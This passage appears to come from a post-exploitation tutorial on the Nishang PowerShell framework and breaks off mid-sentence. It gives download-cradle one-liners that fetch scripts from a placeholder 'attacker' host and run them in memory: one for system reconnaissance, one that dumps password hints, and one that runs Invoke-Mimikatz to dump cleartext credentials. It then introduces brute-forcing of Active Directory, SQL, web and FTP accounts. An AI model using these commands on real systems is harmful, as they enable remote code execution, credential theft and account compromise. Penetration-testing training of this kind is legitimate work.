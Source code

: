

The Get Information cmdlet will get us a good deal of system information including:

PuTTY trusted hosts
PuTTY Saved sessions
Recently used commands
Shares on the target machine
Environment Variables
Current user details
SNMP information
Installed applications
Domain Name
Contents of hosts file
Running Services
Account Policy
Local Users
Local Groups
WLAN Info


We can download it and execute it in memory with our Net.WebClient DownloadString download cradle:

iex (New-Object Net.WebClient).DownloadString('http://attacker/Get-Information.ps1'); Get-Information



Get-PassHints we can use to dump the saved Password Hints for users on the system

iex (New-Object Net.WebClient).DownloadString('http://attacker/Get-PassHints'); Get-PassHints



The Invoke-Mimikatz cmdlet will dump clear text credentials (or hashes) from memory. Note, that we can also 
pass command line parameters to any of the modules that have additional options as part of our download
cradle commands: 

iex (New-Object Net.WebClient).DownloadString('http://attacker/Invoke-Mimikatz'); Invoke-Mimikatz -DumpCreds

There are plenty of other gather modules which will come in handy for our post-exploitation purposes:

https://github.com/samratashok/nishang#gather



# Nishang Brute-Forcing MSSQL, Active Directory, WEB, and FTP



As part of its catalog, Nishang includes a great brute force tool called Invoke-BruteForce. We
can use this to brute Active Directory accounts, SQL servers, Web or ftp servers. The great thing about a
brute force tool written in PowerShell is that we can execute the attack from our target host as long as
we copy a file containing usernames and passwords to our target
